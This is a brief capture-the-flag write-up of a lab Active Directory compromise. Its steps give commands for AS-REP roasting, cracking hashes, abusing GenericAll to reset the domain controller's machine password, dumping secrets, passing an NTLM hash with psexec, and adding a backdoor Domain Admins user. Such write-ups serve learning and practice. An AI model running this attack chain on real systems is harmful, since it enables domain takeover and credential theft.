# IT Cup Writeup

1. Get possible Usernames from Web (10.0.1.12)
Create users.txt from email-format

2. Try as-reproast
```powershell
impacket-getnpusers -usersfile users.txt -request -format hashcat -dc-ip 10.0.1.11 'plumetech.local/'
```
3. Crack hashes

4. Manually check cracked user
```powershell
$dc = Get-ADComputer -Identity "DC1" -Properties DistinguishedName
$acl = Get-Acl "AD:$($dc.DistinguishedName)"
$acl.Access
```
Find that we have GenericAll on DC

5. Overwrite Machine Account
```powershell
Set-ADAccountPassword -Identity "DC1$" -NewPassword (ConvertTo-SecureString -AsPlainText 'NewPass123!' -Force)
```
6. Run secretsdump
```powershell
impacket-secretsdump 'PLUMETECH.LOCAL/DC1$':'NewPass123!'@10.0.1.11
```

7. Run psexec and create user
```powershell
impacket-psexec 'Administrator@10.0.1.11' -hashes aad3b435b51404eeaad3b435b51404ee:110d175a98fcafce620960d79e5492f1

net1 user plumber P@ssw0rd /add
net1 group "Domain Admins" plumber /ADD /DOMAIN
```
